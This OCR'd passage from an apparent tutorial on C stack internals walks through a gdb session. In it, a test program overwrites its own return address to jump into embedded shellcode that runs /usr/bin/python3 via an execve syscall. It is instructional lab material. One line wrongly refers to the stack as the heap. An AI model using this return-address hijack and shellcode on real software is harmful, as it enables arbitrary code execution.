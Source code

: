     int main(){
        int c, d;
        unsigned long e;
        c = 5;
        d = 3;
        e = c + d;              // e == 8
        e = callme(d, &e);		// e == 11
        c = c + e; 				// c == 16
        printf("c: %d\n", c);	
        return 0;
    }

    gcc stacky.c -g -o stacky
    ./stacky

    c: 16

The thing doesn't work because we added a new variable `program` after the variable `a` on our heap, so the difference between the address of the variable `a` and the 8 bytes after the address where the register `$rsp` points to is no longer 7 32-bit integers. We reopen the program with the `gdb` tool and recalculate the difference between the address of the variable `a` and the return address.

    gdb stacky

    Reading symbols from stacky...
    (gdb) break callme
    Breakpoint 1 at 0x1144: file stacky.c, line 8.
    (gdb) run
    Starting program: /home/aleks/stacky 
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, callme (a=3, b=0x7fffffffe050) at stacky.c:8
    7		char program[64] = "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3";
    (gdb) s
    8	        f = (unsigned long*)(&a + X);	// Override return address.
    (gdb) s
    9	        *f = (unsigned long)&(program[0]);
    (gdb) s
    10	        return a + *b;
    (gdb) p &a
    $1 = (int *) 0x7fffffffdfec
    (gdb) p $rsp+8
    $2 = (void *) 0x7fffffffe048
    (gdb) p/x *((unsigned long*)($rsp+8)) 
    $3 = 0x555555555206
    (gdb) disassemble main
    Dump of assembler code for function main:
        0x00005555555551d1 <+0>:	push   %rbp
        0x00005555555551d2 <+1>:	mov    %rsp,%rbp
        0x00005555555551d5 <+4>:	sub    $0x10,%rsp
        0x00005555555551d9 <+8>:	movl   $0x5,-0x4(%rbp)
        0x00005555555551e0 <+15>:	movl   $0x3,-0x8(%rbp)
        0x00005555555551e7 <+22>:	mov    -0x4(%rbp),%edx
        0x00005555555551ea <+25>:	mov    -0x8(%rbp),%eax
        0x00005555555551ed <+28>:	add    %edx,%eax
        0x00005555555551ef <+30>:	cltq
        0x00005555555551f1 <+32>:	mov    %rax,-0x10(%rbp)
        0x00005555555551f5 <+36>:	lea    -0x10(%rbp),%rdx
        0x00005555555551f9 <+40>:	mov    -0x8(%rbp),%eax
        0x00005555555551fc <+43>:	mov    %rdx,%rsi
        0x00005555555551ff <+46>:	mov    %eax,%edi
        0x0000555555555201 <+48>:	call   0x555555555139 <callme>
        0x0000555555555206 <+53>:	cltq
        0x0000555555555208 <+55>:	mov    %rax,-0x10(%rbp)